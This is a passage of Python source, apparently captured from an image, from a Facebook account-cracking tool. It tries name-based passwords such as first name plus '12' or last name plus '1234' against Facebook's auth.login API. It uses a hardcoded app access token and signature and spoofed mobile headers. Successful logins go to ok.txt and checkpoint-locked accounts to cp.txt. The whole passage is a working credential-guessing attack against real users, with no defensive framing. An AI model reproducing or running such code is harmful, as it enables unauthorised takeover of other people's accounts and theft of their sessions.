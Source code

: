						else:
							pass3 = name.lower().split(' ')[0] + '12'
							api = 'https://b-api.facebook.com/method/auth.login'
							params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass3, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
							headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
							data = requests.get(api, params=params, headers=headers_)
							if "access_token" in data.text and "EAAA" in data.text:
								print(" \033[1;32m[BRAVO-OK] "+uid+" | "+pass3+"\033[0;97m")
								ok = open("ok.txt", "a")
								ok.write(uid+"|"+pass3+"\n")
								ok.close()
								oks.append(uid+pass3)
							else:
								if "www.facebook.com" in data.json()['error_msg']:
									print(" \033[1;33m[BRAVO-CP] "+uid+" | "+pass3+"\033[0;97m")
									cp = open("cp.txt", "a")
									cp.write(uid+"|"+pass3+"\n")
									cp.close()
									cps.append(uid+pass3)
								else:
									pass4 = name.lower().split(' ')[1] + '1234'
									api = 'https://b-api.facebook.com/method/auth.login'
									params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass4, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
									headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
									data = requests.get(api, params=params, headers=headers_)
									if "access_token" in data.text and "EAAA" in data.text:
										print(" \033[1;32m[Ibrahim>OK] "+uid+" | "+pass4+"\033[0;97m")
										ok = open("ok.txt", "a")
										ok.write(uid+"|"+pass4+"\n")
										ok.close()
										oks.append(uid+pass4)
									else:
										if "www.facebook.com" in data.json()['error_msg']:
											print(" \033[1;33m[Ibrahim:CP] "+uid+" | "+pass4+"\033[0;97m")
											cp = open("cp.txt", "a")
											cp.write(uid+"|"+pass4+"\n")
											cp.close()
											cps.append(uid+pass4)
										else:
											pass5 = name.lower().split(' ')[1] + '123'
											api = 'https://b-api.facebook.com/method/auth.login'
											params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass5, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
											headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
											data = requests.get(api, params=params, headers=headers_)
											if "access_token" in data.text and "EAAA" in data.text:
												print(" \033[1;32m[IbrahimO-OK] "+uid+" | "+pass5+"\033[0;97m")
												ok = open("ok.txt", "a")
												ok.write(uid+"|"+pass5+"\n")
												ok.close()